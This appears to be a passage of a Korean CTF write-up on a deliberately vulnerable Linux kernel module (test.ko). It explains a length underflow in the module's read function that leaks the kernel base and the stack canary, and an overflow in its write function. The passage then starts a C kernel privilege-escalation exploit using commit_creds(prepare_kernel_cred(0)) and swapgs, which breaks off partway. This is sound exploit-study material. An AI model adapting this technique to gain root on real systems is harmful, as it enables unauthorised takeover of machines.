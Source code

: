 ```c
    
    ptr = (char *)kmalloc(len, GFP_KERNEL);
    if (copy_from_user(ptr, buf, len) != 0)
    {
        printk("copy error\n");
        return -1;
    }
    memcpy(arr, ptr, len);
    printk("test_write is done : %x", arr[0]);
    return 0;
}

...
```


test.ko 모듈이 매번 삽입되는데, 이 모듈은 read와 write 함수가 구현되어 있다.

read 함수에서는 copy_to_user 함수를 통해, 커널 스택에 있는 값을 복사해서 전달하는데, 이때, 실제 복사에 사용되는 크기 len이 count-1의 값을 갖기 때문에, 0을 입력하면 0xFF가 되어, count 크기 조건을 우회하면서도 버퍼를 넘어서 복사된다. -> **Type underflow**

이를 통해서, 커널의 베이스 주소를 구할 수 있고, 또한, 카나리 값도 자연스럽게 얻을 수 있을 것이다.

write 함수에서는 단순히 버퍼의 크기보다 더 많은 값을 입력할 수 있기 때문에, RIP 조작이 가능하다.

---

## 익스플로잇

```c
// gcc -o exp exp.c -no-pie -static -masm=intel
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <stdint.h>

void *(*commit_creds)(void *);
void *(*prepare_kernel_cred)(void *);

struct register_val {
    uint64_t user_rip;
    uint64_t user_cs;
    uint64_t user_rflags;
    uint64_t user_rsp;
    uint64_t user_ss;
} rv;

void shell(void) {
    execl("/bin/sh", "sh", NULL);
}

void backup_rv(void) {
    asm("mov rv+8, cs;"
        "pushf; pop rv+16;"
        "mov rv+24, rsp;"
        "mov rv+32, ss;"
       );
    rv.user_rip = &shell;
}

void payload(void) {
    commit_creds(prepare_kernel_cred(0));
    asm("swapgs;"
        "mov %%rsp, %0;"
```